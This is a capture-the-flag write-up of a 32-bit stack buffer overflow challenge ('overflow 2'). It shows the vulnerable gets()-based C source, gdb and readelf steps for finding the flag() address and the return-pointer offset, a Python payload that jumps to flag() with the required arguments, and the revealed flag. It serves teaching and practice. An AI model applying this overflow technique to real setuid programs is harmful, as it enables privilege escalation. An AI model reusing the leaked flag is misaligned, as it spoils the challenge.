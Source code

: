 This challenge memics `jump to libc` buffer overflow attack. If you want to exactly underestand it, then this is the best 
explination I have ever found [jump to libC by Dr.Du](https://youtu.be/LBo56Xyowvk?t=1240).

Challenge fils:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```
flag.txt is protected and only accessable by vuln program, which is owned by `hacksports`. But we can run it as it is setUID program `s` flag is on, which allows any user to run it with the previllage of the owner.
```
ls -la
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 22:04 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-2_6    33 Sep 28 22:04 flag.txt
-rwxr-sr-x   1 hacksports overflow-2_6  7500 Sep 28 22:04 vuln
-rw-rw-r--   1 hacksports hacksports     794 Sep 28 22:04 vuln.c

```

Basiclly, we need to jump to `flag` function, but prepare the `arg1,arg2` on the correct place on the stack ($ebp+8,$ebp+12)
for the flag function.

The $ebp when flag is executed will be in the same position of the $eip (return pointer), see the lecture above by Dr. Du 
if you want to understand how this is the case.

*So what we can do is rewirte the return pointer, and jump 4 bytes then write the arg1, then arg2. 

1- let's first find the address of flag which is `080485e6`
```
$ gdb vuln
(gdb) p flag
```
or 
```
$ readelf  -s vuln | grep flag
```
2- Let's find the return address location
Method 1, just fill the buffer until you get sig fault.  
```
python -c 'print("A"*184)`|./vuln
Segmentation fault (core dumped)
```
That means the return address is 188 bytes from the beggining of the `buf`. 

Method 2, use gdb to print the difference between `$ebp` and `buf` then add 4 bytes (the size of the previouse frame pointer)
to get the location of the return address. 
```
$gdb vuln
(gdb) b vuln
(gdb) p $ebp
(gdb) p &buf
# for some reason I couldn't print buff, so I just fill it with AA then print the values below the $ebp to find where is it.

$gdb vuln
(gdb)disassemble vuln
(gdb)b *0x0804869a < break just after gets function>
(gdb)r
<enter>AAAAAAAAAAAAAA
(gdb)x/200x $ebp-200
< look for the first address that contains 0x41414141, the A's>
< you will find it 0xffd00e90, which is the address of buf>
(gdb)p/d $epb - 0xffd00e90
$1=184 < same value we get from method 1>
```
So the return address is 184+4bytes(previous frame pointer) bytes from the beggining of the buf.
3- Let's overflow the buffer
Now we have:
- The address of the flag function `080485e6`
- The location of the return pointer `188` bytes from the beggining of the buf
- The location of the arg1, and arg2 4 and 8 bytes above the return address (i.e. 202,206).
Or simply jump 4bytes after the return address then write arg1, then arg2. 
```
#188 A's + (return address) + (dump A's into 4bytes) + (first arg)+(second arg)
python -c 'import struct; print("A"*188+struct.pack("<I",0x080485e6)+"AAAA"+struct.pack("<I",0xDEADBEEF)+struct.pack("<I",0xC0DED00D))'|./vuln
picoCTF{arg5_and_r3turn55897b905}
```
Note: struct.pack `<I` is to put the value in little endian format in the memory. 



